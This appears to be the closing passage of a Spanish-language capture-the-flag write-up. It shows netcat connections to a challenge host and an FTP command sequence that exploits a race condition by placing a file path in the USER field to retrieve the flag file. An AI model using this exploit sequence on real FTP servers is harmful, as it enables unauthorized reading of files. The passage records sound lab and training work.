 Ahora para obtener la salida del comando, usando otra terminal con netcat nos conectamos al socket

```
❯ nc 47.89.253.219 32180
drwxr-xr-x  2 0 0 4096 Nov 30 02:04 opt
drwxr-xr-x  5 0 0 340 Jan 08 14:25 dev
drwxr-xr-x  2 0 0 4096 Apr 18 2022 home
drwxr-xr-x  1 0 0 4096 Nov 30 02:07 var
lrwxrwxrwx  1 0 0 9 Nov 30 02:04 lib64
drwxr-xr-x  5 0 0 4096 Nov 30 02:07 run
drwxr-xr-x  2 0 0 4096 Nov 30 02:04 mnt
drwx------  1 0 0 4096 Jan 03 05:25 root
drwxr-xr-x  1 0 0 4096 Nov 30 02:04 usr
lrwxrwxrwx  1 0 0 7 Nov 30 02:04 bin
dr-xr-xr-x  13 0 0 0 Jan 03 12:45 sys
drwxr-xr-x  2 0 0 4096 Apr 18 2022 boot
lrwxrwxrwx  1 0 0 8 Nov 30 02:04 sbin
drwxr-xr-x  2 0 0 4096 Nov 30 02:04 srv
drwxr-xr-x  1 0 0 4096 Jan 08 14:25 etc
lrwxrwxrwx  1 0 0 9 Nov 30 02:04 lib32
lrwxrwxrwx  1 0 0 10 Nov 30 02:04 libx32
drwxr-xr-x  2 0 0 4096 Nov 30 02:04 media
drwxrwxrwt  2 0 0 4096 Nov 30 02:07 tmp
dr-xr-xr-x  172 0 0 0 Jan 08 14:25 proc
lrwxrwxrwx  1 0 0 7 Nov 30 02:04 lib
-rwxr-xr-x  1 0 0 0 Jan 08 14:25 .dockerenv
-rw-r--r--  1 0 0 48 Jan 03 05:28 flag.deb10154-8cb2-11ed-be49-0242ac110002
drwxr-xr-x  1 0 0 4096 Jan 05 04:38 server
```

Y ahora solo resta leer la flag

```
USER anonymous
331 User anonymous OK. Password required
PASS a
230 User logged in, proceed.
PASV
227 Entering Passive Mode (0,0,0,0,172,82).
RETR hello.txt
150 File status okay; about to open data connection.
USER /flag.deb10154-8cb2-11ed-be49-0242ac110002
331 User /flag.deb10154-8cb2-11ed-be49-0242ac110002 OK. Password required
```

```
❯ nc 47.89.253.219 44114
rwctf{race-c0nd1tion-1s-real1y_ha4d_pr0blem!!!}
```
